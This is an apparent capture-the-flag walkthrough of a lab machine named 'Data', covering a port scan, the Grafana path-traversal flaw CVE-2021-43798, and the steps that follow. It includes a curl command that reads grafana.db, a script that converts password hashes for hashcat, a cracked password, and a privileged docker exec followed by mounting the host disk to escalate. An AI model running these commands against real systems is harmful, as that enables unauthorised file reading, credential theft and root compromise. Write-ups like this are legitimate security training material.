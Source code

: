 # Data (easy)

## port scan

![](walkthrough_20240409125154725.png)

## service enumeration

on port 3000. we have Grafana

![](walkthrough_20240409125116741.png)

## exploit grafana

CVE-2021-43798 give us access to read local file

we can use `searchsploit -m 50581`

![](walkthrough_20240409125319993.png)

we can change this exploit write out to file

![](walkthrough_20240409125822967.png)

![](walkthrough_20240409130007225.png)

or just use curl command

```bash
curl --path-as-is http://10.10.68.81:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![](walkthrough_20240409131056541.png)

![](walkthrough_20240409131205244.png)

## crack grafana user password

```python
import base64

users = [
    "admin@localhost|7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S",
    "boris@data.vl|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl"
]

def main():
    for user in users:
        userProperties = user.split("|");
        email = userProperties[0];
        hexHash = userProperties[1];
        salt = userProperties[2];

        decodedHash = bytes.fromhex(hexHash)
        hashB64 = base64.b64encode(decodedHash).decode('utf-8')
        saltB64 = base64.b64encode(bytes(salt, 'utf-8')).decode('utf-8')
        print(f"sha256:10000:{saltB64}:{hashB64}")



if __name__ == "__main__":
    main()
```

```bash
python3 ./decode.py > hash
sudo hashcat ./hash /usr/share/wordlists/rockyou.txt
```

the cred is `beautiful1`

![](walkthrough_20240409132039226.png)

## ssh

we can use cracked password ssh into target

![](walkthrough_20240409132148203.png)

## Privilege Escalation

we can use `/snap/bin/docker exec *` with root privilege

![](walkthrough_20240409132333541.png)

```bash
sudo docker exec --privileged -i -u root -t grafana /bin/bash
```

and there have a disk `/dev/xvda1`. we can mount it to access host file system

![](walkthrough_20240409135956780.png)
